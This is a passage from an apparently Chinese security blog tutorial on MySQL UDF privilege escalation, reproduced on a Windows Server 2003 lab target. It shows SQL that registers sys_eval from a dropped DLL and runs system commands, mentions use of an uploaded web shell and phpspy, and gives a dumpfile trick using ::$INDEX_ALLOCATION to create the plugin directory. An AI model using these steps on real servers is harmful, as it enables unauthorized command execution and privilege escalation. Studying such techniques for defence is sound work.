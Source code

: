 

```
select * from mysql.func where name = "sys_exec";
```




![](https://img-blog.csdnimg.cn/20200507214350972.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



手动使用该 dll 文件创建sys\_eval()函数，来执行有命令的回显。



```
create function sys_eval returns string soname "XJhSEGuE.dll";      
select sys_eval("whoami");
```




![](https://img-blog.csdnimg.cn/20200507221451754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### UDF提权复现(php环境)



> 靶机环境：Windows Server 2003 、php 5.4.3 、 Apache2.4.23



这里我们已经通过上传一句话木马拿到网站的shell了，并且得到了网站数据库的用户名和密码都是root。但是因为获得的系统用户权限太低，无法创建新用户。而且也不能使用其他提权等手段。所以，我们现在要做的就是使用UDF进行提权。



首先，我们把  phpspy.php 和　udf.php 两个文件上传到网站服务器



![](https://img-blog.csdnimg.cn/20181206192016729.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后先访问 phpspy.php 页面，MySQL Manager——>输入数据库的密码——>选择一个数据库



![](https://img-blog.csdnimg.cn/20181206192617112.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



由于MySQL>5.2版本后，在其安装目录的lib目录下没有 plugin 目录，所以，我们得新建这个目录，并且将我们的 udf.dll 文件放入 plugin目录下，我们执行下面命令，完成创建plugin目录，并且将udf.dll放入该目录下



```
select 'xxxxxx' into dumpfile 'C:\\Program\ Files\\MySQL\\MySQL\ Server\ 5.4\\lib\\plugin::$INDEX_ALLOCATION'
```

